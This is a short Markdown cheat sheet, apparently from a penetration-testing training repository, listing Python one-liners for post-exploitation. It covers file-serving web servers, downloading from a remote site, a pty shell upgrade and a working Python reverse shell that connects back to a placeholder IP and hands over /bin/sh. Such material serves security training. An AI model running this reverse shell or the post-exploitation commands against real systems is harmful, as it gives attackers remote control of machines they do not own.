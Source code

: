 #  Python Tricks

Please do not use Python 2 and work using Python 3. However, I have added a few examples of the old ways of doing these operations in Python 2 for your reference only.

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
```
python -m SimpleHTTPServer 1337
```

### In Python 3.x
```
python3 -m http.server 1337
```

----
## Pythonic Web Client

### In Python 2.x
```
python -c 'import urllib2; print urllib2.urlopen("http://h4cker.org/web").read()' | tee /tmp/file.html
```

### In Python 3.x
```
python3 -c 'import urllib.request; urllib.request.urlretrieve ("http://h4cker.org/web","/tmp/h4cker.html")'
```

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

```
python -m pdb <some_python_file>
```

Refer to this [Python Debugger cheatsheet](https://kapeli.com/cheat_sheets/Python_Debugger.docset/Contents/Resources/Documents/index) if you are not familiar with the Python Debugger.

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 192.168.78.205) and the port (instead of 13337) below:

```
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.78.205",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

